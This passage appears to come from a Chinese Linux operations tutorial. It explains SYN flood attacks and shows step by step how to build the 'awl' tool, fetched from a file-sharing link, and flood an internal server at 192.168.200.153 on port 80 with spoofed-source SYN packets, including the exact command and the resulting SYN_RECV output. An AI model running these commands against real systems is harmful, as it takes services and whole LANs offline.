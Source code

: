 ```bash
[root@es-node03 ~]# tcpdump -n -c 30 port 22 -i ens160
```

### 1.10SYN洪水攻击
**SYN洪水攻击主要源于**： tcp协议的三次握手机制
**SYN洪水攻击的过程**：
- 在服务端返回一个确认的SYN-ACK包的时候有个潜在的弊端，如果发起的客户是一个不存在的客户端，那么服务端就不会接到客户端回应的ACK包。
- 这时服务端需要耗费一定的数量的系统内存来等待这个**未决的连接**，直到等待超关闭时间，才能施放内存。
- 如果恶意者通过通过ip欺骗，发送大量SYN包给受害者系统，导致服务端存在大量未决的连接并占用大量内存和tcp连接，从而导致正常客户端无法访问服务端，这就是SYN洪水攻击的过程。

使用awl伪装MAC对内网的服务器施实syn洪水攻击
awl下载地址：[https://pincheng.lanzous.com/ij9dxdq3aqd](https://pincheng.lanzous.com/ij9dxdq3aqd)
```bash
[root@es-node03 ~]# tar -xf awl-0.2.tar.gz 
[root@es-node03 ~]# cd awl-0.2/
[root@es-node03 ~/awl-0.2]# ./configure && make -j 4 && make install
[root@es-node03 ~/awl-0.2]# which awl
/usr/local/bin/awl

[root@es-node03 ~/awl-0.2]# ping 192.168.200.153
PING 192.168.200.153 (192.168.200.153) 56(84) bytes of data.
64 bytes from 192.168.200.153: icmp_seq=1 ttl=64 time=0.322 ms
[root@es-node03 ~]# arp -n | grep 153
192.168.200.153          ether   00:50:56:9d:0b:0b   C    ens160
#获取目标主机mac地址
```
awl 的格式如下:
`awl -i ens160 -m 00:50:56:9d:0b:0b -d 192.168.200.153 -p 80`
参数如下:
- -i 发送包的接口,如果省略默认是eth0
- -m 被攻击机器的mac地址,程序不能根据被攻击IP得到MAC,需要手工指定.先ping 目标IP,再arp -a就可以看到.
如果省略则为ff:ff:ff:ff:ff:ff :这表示向同一网段內的所有主机发出ARP广播，进行SYN攻击，还容易使整个局域网瘫痪
- -d 被攻击机器的IP
- -p 被攻击机器的端口.
这里注意，手动指定-i参数很重要，比如我们的网卡是ens160,那就要指定 -i ens160，alvin的实测结果显示，不这样指定的时候，攻击无效。

```bash
[root@es-node03 ~]# netstat -na | grep "SYN_RECV"
tcp        0      0 192.168.200.153:80      218.149.245.64:17552    SYN_RECV   
tcp        0      0 192.168.200.153:80      111.187.179.3:49721     SYN_RECV   
tcp        0      0 192.168.200.153:80      59.171.38.91:26277      SYN_RECV   
tcp        0      0 192.168.200.153:80      17.139.112.127:34437    SYN_RECV
...
```
